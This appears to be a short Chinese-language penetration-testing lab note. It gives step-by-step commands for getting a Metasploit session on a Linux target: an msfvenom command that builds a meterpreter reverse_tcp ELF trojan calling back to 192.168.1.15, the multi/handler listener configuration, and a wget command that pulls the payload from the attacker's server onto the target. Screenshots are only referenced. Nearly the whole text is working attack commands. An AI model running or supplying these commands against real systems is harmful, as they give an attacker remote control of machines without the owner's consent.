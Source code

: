 



msf上线

生成linux远控木马

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.1.15 lport=283 -f elf
> ra1n3.elf
```

![image-20250406223927709](./assets/image-20250406223927709.png)



开启监听

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.168.1.15
set lport 283
run
```

![image-20250406224027400](./assets/image-20250406224027400.png)



上传靶机

```
wget 192.168.1.15:8000/ra1n3.elf
```

![image-20250406223954230](./assets/image-20250406223954230.png)
